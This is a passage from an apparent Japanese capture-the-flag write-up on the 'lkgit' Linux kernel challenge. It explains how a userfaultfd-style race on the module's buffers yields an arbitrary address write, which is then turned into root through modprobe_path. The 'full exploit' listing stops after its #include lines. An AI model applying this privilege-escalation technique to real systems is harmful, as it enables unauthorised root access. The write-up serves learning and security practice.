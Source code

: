 また、2つの構造体を比較してみると、`message`として確保される領域が`log_object`と同じサイズであることがわかります。
```
#define MESSAGE_MAXSZ             0x20
typedef struct {
  char hash[HASH_SIZE];
  char *content;
  char *message;
} hash_object;
```

最後に、`lkgit_hash_object()`における各バッファの確保順を見てみると以下のようになっています。
```lkgit.c
	char *content_buf = kzalloc(FILE_MAXSZ, GFP_KERNEL);
	char *message_buf = kzalloc(MESSAGE_MAXSZ, GFP_KERNEL);
	hash_object *req = kzalloc(sizeof(hash_object), GFP_KERNEL);
```

よって、amend->get->止める->オブジェクト削除->新しく`log_object`の作成->amend再開とすることで、amendで書き込む対象である`message`を任意のアドレスに向けることが可能です。これでAAWになりました。
ここまできたら、あとはお決まりの`modprobe_path`テクニックによってrootで任意のことが出来ます。`modprobe_path`の悪用については、以下の2点を読むと原理と詳細が解ると思います。
https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md
https://github.com/smallkirby/kernelpwn/blob/master/important_config/STATIC_USERMODEHELPER.md

`modprobe_path`のアドレスの特定については以下を参考にしてください。
https://github.com/smallkirby/kernelpwn/blob/master/important_config/KALLSYMS_ALL.md

# full exploit

```exploit.c
/****************
 *
 * Full exploit of lkgit.
 * 
****************/

#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <netinet/in.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>
```